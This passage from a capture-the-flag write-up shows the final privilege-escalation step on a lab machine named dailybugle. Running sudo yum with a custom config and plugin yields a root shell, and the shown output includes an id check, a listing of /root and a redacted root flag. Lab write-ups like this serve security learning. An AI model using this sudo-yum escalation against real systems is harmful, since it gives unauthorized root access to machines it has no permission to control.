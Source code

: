5. Run `yum` with custom config and plugin
    
    ```bash
    [jjameson@dailybugle ~]$ sudo /usr/bin/yum -c $TF/x --enableplugin=y
    Loaded plugins: y
    No plugin match for: y
    sh-4.2# id
    uid=0(root) gid=0(root) groups=0(root)
    sh-4.2# cd /root
    sh-4.2# ls -la
    total 28
    dr-xr-x---.  3 root root  163 Dec 15  2019 .
    dr-xr-xr-x. 17 root root  244 Dec 14  2019 ..
    -rw-------.  1 root root 1484 Dec 14  2019 anaconda-ks.cfg
    lrwxrwxrwx   1 root root    9 Dec 14  2019 .bash_history -> /dev/null
    -rw-r--r--.  1 root root   18 Dec 28  2013 .bash_logout
    -rw-r--r--.  1 root root  176 Dec 28  2013 .bash_profile
    -rw-r--r--.  1 root root  176 Dec 28  2013 .bashrc
    -rw-r--r--.  1 root root  100 Dec 28  2013 .cshrc
    drwxr-----.  3 root root   19 Dec 14  2019 .pki
    -rw-r--r--   1 root root   33 Dec 15  2019 root.txt
    -rw-r--r--.  1 root root  129 Dec 28  2013 .tcshrc
    sh-4.2# cat root.txt
    eec3d53292......REDACTED
    ```
    
    And we are root now!
    
    ---
    
    That’s it for this machine.✅

